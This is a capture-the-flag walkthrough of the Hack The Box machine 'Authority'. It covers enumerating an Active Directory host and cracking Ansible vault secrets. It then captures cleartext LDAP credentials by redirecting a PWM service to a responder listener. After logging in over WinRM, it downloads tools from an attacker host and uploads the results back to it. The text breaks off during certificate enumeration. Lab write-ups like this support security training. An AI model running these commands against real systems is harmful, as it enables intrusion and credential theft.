






# HTB: Authority

Starting with a quick portscan:

```bash
$ sudo nmap -sV -oA recon/quick $TARGET

Nmap 7.93 scan initiated
Nmap scan report for authority.htb (10.10.11.222)
Host is up (0.043s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
8443/tcp open  ssl/https-alt
```

We have what looks like a domain controller. Let’s add `authority.htb` to hosts:

```bash
$ sudo bash -c "echo ${TARGET} authority.htb >> /etc/hosts"
```

Starting from the top let’s try a zone transfer.

```bash
$ dig axfr @$TARGET authority.htb

; <<>> DiG 9.18.16-1~deb12u1~bpo11+1-Debian <<>> axfr @10.10.11.222 authority.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

Doesn’t work. Let’s check the website on port 80.

```bash
$ gobuster vhost -u authority.htb/ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -o recon/vhostbust
 ... nothing interesting ...
$ feroxbuster -u http://authority.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-words.txt -o recon/feroxMedWords
 ... nothing interesting ...
$ firefox http://authority.htb/ &
```

Seems to just be a default IIS server.


```bash
$ rpcclient -N -U "" $TARGET
```

Can connect but can’t enumerate anything, enum4linux doesn’t work either.

```bash
$ rpcdump.py $TARGET | grep MS-RPRN
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Possibly vulnerable to print nightmare?

```bash
$ ldapsearch -x -H ldap://$TARGET -D '' -w '' -b "DC=authority,DC=htb"

# extended LDIF
#
# LDAPv3
# base <DC=authority,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090ACD, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563
```

Probably need creds to access ldap.

```bash
$ smbclient -N -L //$TARGET/
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Department Shares Disk
	Development     Disk
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available

$ cme smb $TARGET -u 'anon' -p '' --shares
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\anon:
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares
SMB         10.10.11.222    445    AUTHORITY        Development     READ
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share

$ smbmap -H $TARGET -u 'anon'
[+] Guest session   	IP: 10.10.11.222:445	Name: authority.htb
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	Department Shares                                 	NO ACCESS
	Development                                       	READ ONLY
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share
	SYSVOL                                            	NO ACCESS	Logon server share
```

Seems we have access to a share as the anonymous user. Let’s download all the files for a closer inspection.

```bash
$ smbget -R smb://$TARGET/Development/
 ... or ...
$ cme smb $TARGET -u 'anon' -p '' -M spider_plus -o DOWNLOAD_FLAG=true
 ... or ...
$ smbclient -N //$TARGET/Development/
smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

There seems to be a whole bunch of ansible files. Lots of potential creds and configurations to look through. What sticks out though is that some of them seem to be stored in an ansible vault.

```bash
$ grep -R pass
Development/Automation/Ansible/PWM/templates/tomcat-users.xml.j2:<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>
Development/Automation/Ansible/PWM/templates/tomcat-users.xml.j2:<user username="robot" password="T0mc@tR00t" roles="manager-script"/>
Development/Automation/Ansible/PWM/README.md:- pwm_root_mysql_password: root mysql password, will be set to a random value by default.
Development/Automation/Ansible/PWM/README.md:- pwm_pwm_mysql_password: pwm mysql password, will be set to a random value by default.
Development/Automation/Ansible/PWM/README.md:- pwm_admin_password: pwm admin password, 'password' by default.
Development/Automation/Ansible/PWM/defaults/main.yml:pwm_admin_password: !vault |
Development/Automation/Ansible/PWM/defaults/main.yml:ldap_admin_password: !vault |
Development/Automation/Ansible/PWM/ansible_inventory:ansible_password: Welcome1
Development/Automation/Ansible/LDAP/Vagrantfile:    ansible.vault_password_file = ".vault_password"
Development/Automation/Ansible/LDAP/TODO.md:- Change LDAP admin password after build -[COMPLETE]
Development/Automation/Ansible/LDAP/templates/sssd.conf.j2:chpass_provider = ldap
Development/Automation/Ansible/LDAP/templates/sssd.conf.j2:ldap_default_authtok_type = password
Development/Automation/Ansible/LDAP/templates/sssd.conf.j2:ldap_default_authtok = {{ system_ldap_bind_password }}
Development/Automation/Ansible/LDAP/tasks/main.yml:    - passwd
Development/Automation/Ansible/LDAP/tasks/main.yml:- name: Query SSSD in pam.d/password-auth
Development/Automation/Ansible/LDAP/tasks/main.yml:    dest: /etc/pam.d/password-auth
Development/Automation/Ansible/LDAP/tasks/main.yml:        line: "auth        sufficient    pam_sss.so use_first_pass" }
Development/Automation/Ansible/LDAP/tasks/main.yml:    - { before: "^password.*pam_deny.so",
Development/Automation/Ansible/LDAP/tasks/main.yml:        regexp: "^password.*pam_sss.so",
Development/Automation/Ansible/LDAP/tasks/main.yml:        line: "password    sufficient    pam_sss.so use_authtok" }
Development/Automation/Ansible/LDAP/tasks/main.yml:        line: "auth        sufficient    pam_sss.so use_first_pass" }
Development/Automation/Ansible/LDAP/tasks/main.yml:    - { before: "^password.*pam_deny.so",
Development/Automation/Ansible/LDAP/tasks/main.yml:        regexp: "^password.*pam_sss.so",
Development/Automation/Ansible/LDAP/tasks/main.yml:        line: "password    sufficient    pam_sss.so use_authtok" }
Development/Automation/Ansible/LDAP/tasks/main.yml:- name: Allow/Disallow password authentication in SSHD config for users
Development/Automation/Ansible/LDAP/tasks/main.yml:    state: "{{ 'present' if system_ldap_allow_passwordauth_in_sshd and system_ldap_access_filter_users else 'absent' }}"
Development/Automation/Ansible/LDAP/tasks/main.yml:- name: Allow/Disallow password authentication in SSHD config for groups
Development/Automation/Ansible/LDAP/tasks/main.yml:    state: "{{ 'present' if system_ldap_allow_passwordauth_in_sshd and system_ldap_access_unix_groups else 'absent' }}"
Development/Automation/Ansible/LDAP/README.md:|`system_ldap_bind_password`|`sunrise`|The authentication token of the default bind DN. Only clear text passwords are currently supported.|
Development/Automation/Ansible/LDAP/README.md:|`system_ldap_access_filter_users`|`- hoshimiya.ichigo`<br />`- nikaidou.yuzu`|List of usernames (passed to the filter `(sAMAccountName=%s)` by default) authorized to access the current host.|
Development/Automation/Ansible/LDAP/README.md:|`system_ldap_allow_passwordauth_in_sshd`|`true`|Specifies whether to configure `sshd_config` to allow password authentication for authorized users. This is needed if your SSHD is configured to not allow password authentication by default. Defaults to `false`.|
Development/Automation/Ansible/LDAP/README.md:    system_ldap_bind_password: sunrise
Development/Automation/Ansible/LDAP/README.md:Here we're using a search user account and password (`system_ldap_bind_*`) to
Development/Automation/Ansible/LDAP/README.md:    system_ldap_allow_passwordauth_in_sshd: true
Development/Automation/Ansible/LDAP/defaults/main.yml:system_ldap_allow_passwordauth_in_sshd: false
Development/Automation/Ansible/LDAP/defaults/main.yml:system_ldap_bind_password:
Development/Automation/Ansible/LDAP/.travis.yml:  - echo "$VAULT_PASSWORD" > .vault_password
Development/Automation/Ansible/LDAP/.travis.yml:  - ansible-playbook tests/travis.yml -i localhost, --vault-password-file .vault_password --syntax-check
Development/Automation/Ansible/LDAP/.bin/smudge_vault:# Just print out the secrets file as-is if the password file doesn't exist
Development/Automation/Ansible/LDAP/.bin/smudge_vault:if [ ! -r '.vault_password' ]; then
Development/Automation/Ansible/LDAP/.bin/smudge_vault:    RESULT="$(echo "$CONTENT" | ansible-vault decrypt - --vault-password-file=.vault_password 2>&1 1>&$OUT)";
Development/Automation/Ansible/LDAP/.bin/diff_vault:# Just print out the secrets file as-is if the password file doesn't exist
Development/Automation/Ansible/LDAP/.bin/diff_vault:if [ ! -r '.vault_password' ]; then
Development/Automation/Ansible/LDAP/.bin/diff_vault:CONTENT="$(ansible-vault view "$1" --vault-password-file=.vault_password 2>&1)"
Development/Automation/Ansible/LDAP/.bin/clean_vault:# Just print out the secrets file as-is if the password file doesn't exist
Development/Automation/Ansible/LDAP/.bin/clean_vault:if [ ! -r '.vault_password' ]; then
Development/Automation/Ansible/LDAP/.bin/clean_vault:    RESULT="$(echo "$CONTENT" | ansible-vault encrypt - --vault-password-file=.vault_password 2>&1 1>&$OUT)";
Development/Automation/Ansible/ADCS/vars/main.yml:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
Development/Automation/Ansible/ADCS/vars/main.yml:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
Development/Automation/Ansible/ADCS/vars/main.yml:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
Development/Automation/Ansible/ADCS/vars/main.yml:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
Development/Automation/Ansible/ADCS/vars/main.yml:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
Development/Automation/Ansible/ADCS/tox.ini:passenv = namespace image tag DOCKER_HOST
Development/Automation/Ansible/ADCS/templates/openssl.cnf.j2:preserve	= no			# keep passed DN ordering
Development/Automation/Ansible/ADCS/templates/openssl.cnf.j2:# input_password = secret
Development/Automation/Ansible/ADCS/templates/openssl.cnf.j2:# output_password = secret
Development/Automation/Ansible/ADCS/templates/openssl.cnf.j2:challengePassword		= A challenge password
Development/Automation/Ansible/ADCS/tasks/requests.yml:        - name: Generate requested key (passphrase set)
Development/Automation/Ansible/ADCS/tasks/requests.yml:            passphrase: "{{ request.passphrase }}"
Development/Automation/Ansible/ADCS/tasks/requests.yml:            - request.passphrase is defined
Development/Automation/Ansible/ADCS/tasks/requests.yml:        - name: Generate requested key (passphrase not set)
Development/Automation/Ansible/ADCS/tasks/requests.yml:            - request.passphrase is not defined
Development/Automation/Ansible/ADCS/tasks/requests.yml:        privatekey_passphrase: "{{ request.passphrase | default(omit) }}"
Development/Automation/Ansible/ADCS/tasks/init_ca.yml:    passphrase: "{{ ca_passphrase }}"
Development/Automation/Ansible/ADCS/tasks/generate_ca_certs.yml:    privatekey_passphrase: "{{ ca_passphrase }}"
Development/Automation/Ansible/ADCS/tasks/generate_ca_certs.yml:    privatekey_passphrase: "{{ ca_passphrase }}"
Development/Automation/Ansible/ADCS/tasks/assert.yml:- name: Test if ca_passphrase is set correctly
Development/Automation/Ansible/ADCS/tasks/assert.yml:      - ca_passphrase is defined
Development/Automation/Ansible/ADCS/tasks/assert.yml:      - ca_passphrase is string
Development/Automation/Ansible/ADCS/README.md:# A passphrase for the CA key.
Development/Automation/Ansible/ADCS/README.md:ca_passphrase: SuP3rS3creT
Development/Automation/Ansible/ADCS/README.md:#     passphrase: S3creT
Development/Automation/Ansible/ADCS/README.md:#     passphrase: S3creT
Development/Automation/Ansible/ADCS/defaults/main.yml:# A passphrase for the CA key.
Development/Automation/Ansible/ADCS/defaults/main.yml:ca_passphrase: SuP3rS3creT
Development/Automation/Ansible/ADCS/defaults/main.yml:#     passphrase: S3creT
Development/Automation/Ansible/ADCS/defaults/main.yml:#     passphrase: S3creT
$ grep -R vault
Development/Automation/Ansible/PWM/defaults/main.yml:pwm_admin_login: !vault |
Development/Automation/Ansible/PWM/defaults/main.yml:pwm_admin_password: !vault |
Development/Automation/Ansible/PWM/defaults/main.yml:ldap_admin_password: !vault |
Development/Automation/Ansible/LDAP/Vagrantfile:    ansible.vault_password_file = ".vault_password"
Development/Automation/Ansible/LDAP/README.md:To keep track of ansible vault changes, include .gitconfig in your git config:
Development/Automation/Ansible/LDAP/.travis.yml:  - echo "$VAULT_PASSWORD" > .vault_password
Development/Automation/Ansible/LDAP/.travis.yml:  - ansible-playbook tests/travis.yml -i localhost, --vault-password-file .vault_password --syntax-check
Development/Automation/Ansible/LDAP/.bin/smudge_vault:if [ ! -r '.vault_password' ]; then
Development/Automation/Ansible/LDAP/.bin/smudge_vault:# Store vault's stderr in RESULT and redirect decrypted stdout back to stdout
Development/Automation/Ansible/LDAP/.bin/smudge_vault:    RESULT="$(echo "$CONTENT" | ansible-vault decrypt - --vault-password-file=.vault_password 2>&1 1>&$OUT)";
Development/Automation/Ansible/LDAP/.bin/diff_vault:if [ ! -r '.vault_password' ]; then
Development/Automation/Ansible/LDAP/.bin/diff_vault:CONTENT="$(ansible-vault view "$1" --vault-password-file=.vault_password 2>&1)"
Development/Automation/Ansible/LDAP/.bin/clean_vault:if [ ! -r '.vault_password' ]; then
Development/Automation/Ansible/LDAP/.bin/clean_vault:# Store vault's stderr in RESULT and redirect encrypted stdout back to stdout
Development/Automation/Ansible/LDAP/.bin/clean_vault:    RESULT="$(echo "$CONTENT" | ansible-vault encrypt - --vault-password-file=.vault_password 2>&1 1>&$OUT)";
$ grep -R ldap_admin_password
Development/Automation/Ansible/PWM/defaults/main.yml:ldap_admin_password: !vault |
$ cat Development/Automation/Ansible/PWM/defaults/main.yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
$ cat Development/Automation/Ansible/LDAP/.travis.yml
---
language: python
python: "2.7"

# Use the new container infrastructure
sudo: false

# Install ansible
addons:
  apt:
    packages:
    - python-pip

env:
  global:
    - secure: "YP54FaEPVveTtCzlJG3YPuhxUFQvbVkr1L/AA9NM9rwFciwQcLtIXD9iljD17xzoXRwvooNW90eX8XMR2zkhqzU9C+n3kHw2iQVtAdbI1X59lGAXAT7WBMlU6auFsoVzkFibHxJ1W9R1o5JE2iTdDuR0UzQNaTgLn3Dgt7iOWzwNni3dmqdtbPXY7e5x+JhlKHOU53bGnLxFVmbTWzu0Z8ZDuVvh01azHdR0sj8KmC4c8A8atZU0f2f4YyG/26tx78U6RmNFyj2UTmOHRgOtcQVOzfadbI9gZuc1U5JIkS0FEwZYaJOMYhohAqp9Aumo+cuPVJCvjaEXrlvEe4DAJ6aFigT+JR6NY7w+fgoK57HTgC/y7chY30+34ggp+/0aWmXFqdDUbFWs9ovhf0hVL4AcU+31BWdrEmuJjXAGaGMSrdTYJpMFsnjIqe3bUimH1LEm4+wogD/poGSkRsv9R7j1OeQotVDaivRh6WOBdbXEw5HENczsBzD3TztN8A54UzvVnrMnoPI+aH2uvSm/5JVvqWzWEzZHIpep7lbTgRk/1yjxQk6mXDGtrd9uo4e7ZeEr3rBqtA6qI4VggugHIbLGtqQvINdV9fOnDB1sLlslLEIKfT8BLpnDncPYYVV0r0wyC5ySP+RX7nqsixX5oOR7a1UyXBBQ9D0CX3x7x0Y="

install:
  # Install ansible
  - pip install ansible

  # Check ansible version
  - ansible --version

  # Create ansible.cfg with correct roles_path
  - printf '[defaults]\nroles_path=../' >ansible.cfg

before_script:
  - echo "$VAULT_PASSWORD" > .vault_password

script:
  # Basic role syntax check
  - ansible-playbook tests/travis.yml -i localhost, --vault-password-file .vault_password --syntax-check

notifications:
  webhooks:
    urls:
      - https://galaxy.ansible.com/api/v1/notifications/
      - https://t2d.idolactiviti.es/notify
```

The vault password seems to be stored in a travis secure env. Apparently it’s encrypted using a public key and the private key is kept well hidden by travis so unlikely to be crackable. Though the vault pass might be.

```bash
$ echo '$ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764' | sed -z 's/ //g' > ldap_admin_password

$ echo '$ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531' | sed -z 's/ //g' > pwm_admin_password

$ echo '$ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438' | sed -z 's/ //g' > pwm_admin_login

$ /usr/share/john/ansible2john.py ldap_admin_password > hash
$ hashcat --user hash /usr/share/wordlists/rockyou.txt
```

Hashcat gives us the password of `!@#$%^&*` so let’s decrypt the passwords:

```bash
$ ansible-vault view ldap_admin_password
Vault password:
DevT3st@123

$ ansible-vault view pwm_admin_login
Vault password:
svc_pwm

$ ansible-vault view pwm_admin_password
Vault password:
pWm_@dm!N_!23
```

We have a bunch of creds to check now but let’s have a look at the website on port 8443 first.



Seems to be some sort of a password self service thing. Trying to log in with `admin admin` throws an ldap error leaking some interesting information:



(unable to bind to ldaps://authority.authority.htb:636 as CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb)

Clicking on Configuration Manager we get a password prompt. Entering the `pWm_@dm!N_!23` password we found in the ansible vault allows us in.



Here we can get the db and the config but there doesn’t seem to be anything interesting inside.



Going over to the editor page we’re greeted with a ton of options. Most interesting is the ldap connection page where we seem to be able to change the ldap url the service with try to authenticate to.



Let’s change the ldap url to point to our vm and start responder to see if we can snatch some creds.


```bash
$ sudo responder -I tun0
   ... snip ...
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

Great! After pressing the `Test LDAP Profile` we get some creds. Let’s see if we can auth as the svc_ldap user.

```bash
$ cme winrm $TARGET -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
```

Awesome, let’s login using evil-winrm and run SharpHound + Winpeas to get some more information.

```bash
$ py -m uploadserver
```

```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-WebRequest http://10.10.14.11/winPEAS.exe -OutFile w.exe
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-WebRequest http://10.10.14.11/SharpHound.exe -OutFile s.exe
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-WebRequest http://10.10.14.11/PSUpload.ps1 -OutFile PSUpload.ps1
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Import-Module ./PSUpload.ps1
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ./s
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ./w | tee pout
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-FileUpload -File ./pout -Uri http://10.10.14.11:8000/upload
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-FileUpload -File ./bloodHound.zip -Uri http://10.10.14.11:8000/upload
```

The winpeas output looks rather mangled when viewing with less so let’s print it out using powershell on linux:

```powershell
$ pwsh
$ gc pout
 ... snip ...
 Issuer             : CN=htb-AUTHORITY-CA, DC=htb, DC=corp
  Subject            : CN=authority.authority.htb
  ValidDate          : 4/22/2023 10:25:01 PM
  ExpiryDate         : 4/21/2024 10:25:01 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 790DCBD9D91E34EDE37CDAD9C114C3DE1BEBA7BE

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
 ... snip ...
```

Seems like there is a certificate that can be used for authentication. Let’s run certipy to see if it can be exploited.

```bash
$ certipy find -u 'svc_ldap@authority.htb' -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -vulnerable
$ cat certipy.txt
Certificate Templates
  0
